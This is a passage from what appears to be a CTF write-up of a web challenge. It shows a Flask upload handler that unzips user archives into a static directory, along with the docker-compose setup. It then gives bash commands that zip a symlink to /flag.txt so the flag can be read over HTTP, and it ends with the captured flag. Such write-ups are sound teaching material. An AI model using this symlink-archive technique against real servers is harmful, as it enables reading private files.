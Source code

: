       _sub = session['user']
      file = request.files['file']
      tmppath = path.join('/tmp', urandom(16).hex())
      realpath = safeJoin('/app/static', _sub)
      if not realpath:
        return 'No path traversal'
      if not path.exists(realpath):
        mkdir(realpath)

      file.save(tmppath)
      returncode = run(['unzip', '-qo', tmppath, '-d', realpath]).returncode
      if returncode != 0:
        return 'Not a zip file'
      if not path.isfile(path.join(realpath, 'index.html')):
        return '"index.html" not found'
      return redirect(realpath[4:]+'/index.html', code=302)
    ...
    ```
* **`docker-compose.yaml`**
We can see that the flag is mounted on <font color="FF0000">`/flag.txt`</font>
    ```docker
    version: '3.9'

    services:
      web:
        build: web
        restart: always
        ports:
          - 8080:5000
        volumes:
          - ./flag:/flag.txt:ro
    ```

#### Construct Payload
* So, our first idea is using symbolic link to create a `payload.txt` that link to `/flag.txt` and compress with `index.html` then upload to the web page.
* Payload
    ```bash!
    touch index.html
    ln -s /flag.txt payload.txt
    zip --symlinks -ry index.zip payload.txt index.html
    ```
    Then rewrite the URL like this: https://share.ctf.zoolab.org/static/123/payload.txt

    <font color="FF0000">FLAG{w0W_y0U_r34L1y_kn0w_sYmL1nK!}</font>

#### Reference
[unzipper-ctftime](https://ctftime.org/writeup/31867)
[unzipper-mikecat](https://mikecat.github.io/ctf-writeups/2021/20211218_hxp_CTF_2021/WEB/unzipper/#en)
[unzipper-nandynarwhals](https://nandynarwhals.org/hxp-ctf-2021-unzipper/)
[電腦王-symbolic link](https://www.techbang.com/posts/12538-hard-links-soft-links-archives-does-not-fashu)
[Ithelp - symbolic link](https://ithelp.ithome.com.tw/articles/10222754)